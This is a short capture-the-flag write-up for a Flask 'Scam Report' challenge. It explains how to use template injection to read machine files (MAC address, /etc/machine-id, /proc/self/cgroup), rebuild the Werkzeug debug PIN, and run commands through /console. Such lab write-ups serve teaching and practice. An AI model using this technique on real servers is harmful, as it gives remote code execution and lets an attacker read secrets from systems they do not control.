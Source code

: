 # Scam Report

Author: Reyes

> I created a webapp that allows users to report a email/phone number together with a description to let the authorities  know if a particular source is indeed a scammer.

**Difficulty: Hard**

## Solution

Participants are required to reconstruct a flask debug pin to exfiltrate the flag since getting the flag out directly by SSTI is not allowed.

```python
public = [
  'root', # USER set in Dockerfile
  'flask.app', # this is standard
  'Flask', # this is standard
  '/usr/local/lib/python3.11/site-packages/flask/app.py' # play around locally on Docker to find this
]
private = [
  '2485377892354', # /proc/net/arp to get eth0 interface name, then /sys/class/net/eth0/address, convert MAC address to decimal
  'a3d50743-d72d-4b53-90d1-e9079fbbd2b1c3ce014792c7dea042128a41822a77efdca0ec1f142c5edaf16955c623866689'
  # Concatenates data from [ /etc/machine-id OR /proc/sys/kernel/random/boot_id ] with the first line of /proc/self/cgroup post the last slash (/) (on linux).
]
```

Solve script provided.

Then, go to /console, enter the pin, import os and cat flag.